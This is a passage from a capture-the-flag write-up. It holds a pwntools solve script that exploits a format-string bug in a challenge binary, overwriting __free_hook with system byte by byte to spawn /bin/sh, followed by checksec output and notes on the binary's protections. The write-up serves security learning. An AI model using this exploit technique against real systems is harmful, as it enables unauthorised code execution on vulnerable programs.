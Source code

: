 ```py
# examples 
# 0x7f1ca5c6de48, 0x7fbfea69ae48
# 0x7f1ca5ad1290, 0x7fbfea4fe290
free_hook_addr = libc.sym['__free_hook']
sys_addr = libc.sym['system']
print(hex(free_hook_addr))
print(hex(sys_addr))
#payload = fmtstr_payload(8, {libc.sym['__free_hook'] : libc.sym['system']}) doesn't work 

for i in range(6):
    if i == 0:
        format_specifiers = b'%144c%8$hhn' # writes 90 at the ending byte
    else:
        bytes = (sys_addr >> i * 8) & 0xff
        format_specifiers = f'%{bytes}c%8$hhn'.encode()

    address_payload = free_hook_addr + i

    p.sendlineafter(b"6. Quit", b'1')
    p.sendlineafter(b"ITSC email:", p64(address_payload))
    p.sendlineafter(b"late enrollment:", format_specifiers) # now buffer also at %7$p

    p.sendlineafter(b"6. Quit", b'4')
    p.recvuntil(b"Reason for late enrollment:\n")

# "/bin/sh", as 1st argument, goes to  __free_hook which has been overwritten as system
p.sendlineafter(b"6. Quit", b'1')
p.sendlineafter(b"ITSC email:", b'dummy')
p.sendlineafter(b"late enrollment:", b"/bin/sh")
p.sendlineafter(b"6. Quit", b'5')

p.interactive()
```
Uncomment the lin ethat connects to the remote and run the above solve script, you get a shell and therefore the flag! 

## Obversations 
### Security
```
┌──(kali㉿kali)-[~/Desktop/CTF/enrollment]
└─$ checksec program                                                                  
[*] '/home/kali/Desktop/CTF/enrollment/program'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
- `Full RELRO`: libc addresses are loaded at the beginning of the function and made read-only. Therefore, they we can hardly perform GOT hijacking to rewrite the libc addresses. But there's an exception for this i.e. `__free_hook` used for the `free()` function used to free dynamically allocated variable in the program. 
- `Canary found`: Obstacle for buffer overflow, this protection is useless for our format string attack as we are not overflowing anything to attack. 
- `NX enabled`: That means there is no section that is both writable and executable, which mean no shellcode injecting and executing. Therefore, we got to somehow call `system` with `/bin/sh` to get a shell 